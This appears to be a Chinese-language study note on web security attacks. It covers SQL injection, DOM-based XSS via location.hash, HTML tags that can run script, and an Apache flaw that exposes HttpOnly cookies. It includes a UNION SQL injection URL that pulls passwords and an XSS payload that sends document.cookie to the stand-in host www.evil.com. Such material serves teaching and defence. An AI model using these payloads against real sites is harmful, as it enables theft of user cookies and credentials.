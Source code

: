 ### Sql注入攻击
````javascript
http://www.foo.com/user.php?id=1
get请求目地：
  select username,email,desc1 from users where id=1;

攻击：
  http://www.foo.com/user.php?id=1 union select password,1,1 from users;
````
### XSS跨站脚本攻击
````javascript
前端解析location参数
<script>
eval( location.hash.substr(1) ); // 获取#符号后面的内容
</script>

攻击：
  http://www.foo.com/info.html#new%20Image().src="http://www.evil.com/steal.php?c="+escape(document.cookie);
  http://localhost:8090/day05/mongo.html#document.write("<script/src=test.js></script>")
  
诱骗用户点击之后，用户所在的网站解析参数
然后加载图片，发起get请求"http://www.evil.com/steal.php?c="+escape(document.cookie)
````
### HTML内嵌脚本执行 `能执行js的位置越多，意味着XSS发生的面越广，XSS漏洞出现的可能性越大`
````javascript
js脚本除了执行在JS格式的文件里，还可以出现在HTML的很多标签中，如下：
<script>alert(1)</script>
<img src=# onerror="alert(1)">
<input type="text" value="x" onmouseover="alert(1)" />
<iframe src="javascript:alert(1)"></iframe>
<a href="javascript:alert(1)">x</a>
````
### CSRF攻击
### cookies攻击
````txt
大多数浏览器限制Cookies最大为4kb
Apache Http Server 400错误暴露HttpOnly Cookie
Apache Http Server请求头信息超过LimitRequestFieldSize长度时，服务器返回400（Bad Request），并在返回信息中将出错的请求头内容输出（包含请求头里的 HttpOnly Cookie），
攻击者可以利用这个缺陷获取HttpOnly Cookie
````
